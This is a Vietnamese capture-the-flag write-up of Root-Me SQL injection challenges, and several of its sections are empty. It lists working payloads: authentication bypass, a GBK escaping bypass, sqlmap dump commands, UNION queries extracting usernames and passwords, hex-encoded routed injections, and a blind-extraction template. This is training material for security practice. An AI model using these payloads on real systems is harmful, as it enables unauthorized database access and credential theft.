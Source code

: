 ### [SQL Injection - Authentication]()


Ta đơn giản sử dụng payload *username = admin’--* để bypass qua phần password của admin.


Sau đó mở source code để check password, pass cũng chính là flag.


### [SQL injection - Authentication - GBK]()

Có vẻ như function addslashes được sử dụng ở trường login còn md5 ở trường password . Kịch bản như thế này, chỉ cần chú ý bypass addslashes ở trường login là được. Không cần để ý trường password.


[GBK](https://en.wikipedia.org/wiki/GBK_(character_encoding))


%bf%27%20or%201=1%20--


### [SQL Truncation]()




### [SQL injection - Error]()
```
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" --dbs 
```

Trong đó đoạn trong ngoặc kép là url của trang cần khai thác. --dbs là để lấy dữ liệu database. Chờ 1 lúc thì được kết quả:

Kết quả trả về cho ta thấy bài này xuất hiện 2 cách khai thác sqli bao gồm khai khác blind và error. Có 3 database trả về, tuy nhiên ta chỉ cần chú ý đến database public là được. Thực hiện lấy các tables trên database này: 
```
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public --tables
```
Trong đó --tables sử dụng để lấy tên các bảng. -D public là để lấy kết quả trong database public.

```
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public -T m3mbr35t4bl3 --dump 
```

Trong đó -T là bảng cần lấy data. --dump để lấy toàn bộ dữ liệu bảng này:

### [SQL injection - Insert]()




### [SQL injection - Time based]()



### [SQL injection - Filter bypass]()





### [SQL injection - String]()

Đầu tiên ta sử dụng 1 payload để server trả về lỗi systax hoặc lỗi gì đó để xác định version của server sql. Trong trường hợp này SQLite3 


Dùng payload như sau để xác định số cột trong database 1’ order by 1-- và tăng dần cho đến khi trả về lỗi. Lần này số cột sẽ là 2.


Ta lấy tên bảng bằng cách truy vấn. Với SQLite3 ta gõ lệnh sau: 
```
1' union select 1,sql from sqlite_master--
```



```
1’ union select username,password FROM users--
```


### [SQL injection - Numeric]()

Ta sử dụng tương tự các payload tương tự như trên để xác định các thành phần cơ bản như trên của server.







```
1 union select 1,2,3--
```



1 union select 2,3,sql from sqlite_master--



```
1 union select 1,username,password FROM users--
```



### [SQL Injection - Routed]()

```
‘ union select 1’ order by 1-- 
```

Ta sử dụng burpsuite để bắt truy vấn và thực hiện cho đơn giản

```
union select 1’ union select 1,2-- - -- -
```


```
1’ union select 1’ union select @@version-- - -- -
```


```
' union select 0x27206F726465722062792033202D2D202D -- -

```


```
' union select ' union select 1,table_name from information_schema.tables where table_schema = database() -- - -- -

 'union select 0x2720756E696F6E2073656C65637420312C7461626C655F6E616D652066726F6D20696E666F726D6174696F6E5F736368656D612E7461626C6573207768657265207461626C655F736368656D61203D2064617461626173652829202D2D202D202D2D202D -- - --
 
```



```
1' union select ' union SELECT 1,group_concat(login,' : ',password) FROM users-- - -- -

1' union select 0x2720756E696F6E2053454C45435420312C67726F75705F636F6E636174286C6F67696E2C27203A20272C70617373776F7264292046524F4D2075736572732D2D202D -- - --
```




### [SQL Injection - File reading]()

Bài này có filter mất ký tự ‘ và “ nên nếu cần sử dụng, ta sẽ mã hóa đoạn đó sang hex để sử dụng. Ta cũng thực hiện khai thác lần lượt để lấy dữ liệu. Ta sẽ lấy cột có thể khai thác. Gõ lệnh:

```
-1 union select 1,2,3,4--
```



-1 union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema = database()--


Vậy là có 1 bảng tên member. Thực hiện lấy column_name từ bảng member.
Trong đó ‘member’ được mã hóa sang mã hex:

-1 union select 1,2,3,group_concat(column_name) FROM information_schema.columns WHERE table_name = 0x6d656d626572--

Kết quả trả về 4 cột, tuy nhiên ta chỉ cần lấy 2 cột member_login và member_password để khai thác là được. Thực hiện lấy dữ liệu 2 cột:

-1 union select 1,2,3,group_concat(member_login,member_password) FROM member--



### [SQL Injection - Blind]()



username=user1' and substr((select password from users where (username=’user1')),1,1)=’§subpass§’ — &password=password






